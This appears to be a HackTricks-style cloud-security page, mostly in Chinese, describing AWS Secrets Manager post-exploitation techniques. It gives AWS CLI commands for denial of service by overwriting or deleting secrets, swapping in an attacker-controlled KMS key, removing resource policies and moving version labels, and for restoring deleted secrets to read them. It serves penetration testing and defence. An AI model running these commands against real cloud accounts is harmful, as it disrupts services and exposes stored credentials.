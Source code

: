 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

更多信息请参见：

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### 读取 Secrets

这些 **secrets 本身是敏感信息**，[请查看 privesc 页面](../aws-privilege-escalation/aws-secrets-manager-privesc.md) 了解如何读取它们。

### DoS 更改 Secret 值

更改 secret 的值可能会对所有依赖该值的系统造成 **DoS**。

> [!WARNING]
> 请注意，先前的值也会被存储，因此可以很容易地恢复到之前的值。
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

如果 attacker 拥有 secretsmanager:UpdateSecret 权限，就可以将 secret 配置为使用由 attacker 拥有的 KMS key。该 key 最初被设置为任何人都可以访问和使用，因此可以使用该新 key 更新 secret。如果该 key 无法访问，则无法更新 secret。

在更改 secret 的 key 之后，attacker 会修改其 key 的配置，使只有他们自己可以访问。这样，之后的 secret 版本将使用新 key 加密，由于无法访问该 key，就无法检索 secret。

需要注意的是，这种不可访问性只会发生在后续版本（在 secret 内容更改之后），因为当前版本仍然使用原来的 KMS key 加密。
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Deleting Secret

删除 secret 的最短天数为 7 天
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

可以恢复一个 secret，这允许恢复已计划删除的 secret，因为 secrets 的最短删除期限为 7 天，最长为 30 天。再加上 secretsmanager:GetSecretValue 权限，就可以检索它们的内容。

要恢复正在被删除的 secret，您可以使用以下命令：
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

此操作允许删除控制谁可以访问 secret 的 resource policy。如果该 resource policy 被配置为允许特定用户集访问，则可能导致 DoS。

要删除 resource policy：
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

一个 secret 的状态用于管理 secret 的不同版本。AWSCURRENT 标记应用程序使用的活动版本，AWSPREVIOUS 保留前一个版本以便在必要时回滚，而 AWSPENDING 在轮换过程中用于准备并验证新版本，在将其设为当前版本之前使用。

应用程序总是读取标有 AWSCURRENT 的版本。如果有人把该标签移动到错误的版本，应用将使用无效的凭据并可能失败。

AWSPREVIOUS 不会被自动使用。然而，如果 AWSCURRENT 被移除或错误地重新分配，可能会看起来一切仍在使用前一个版本运行。
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}
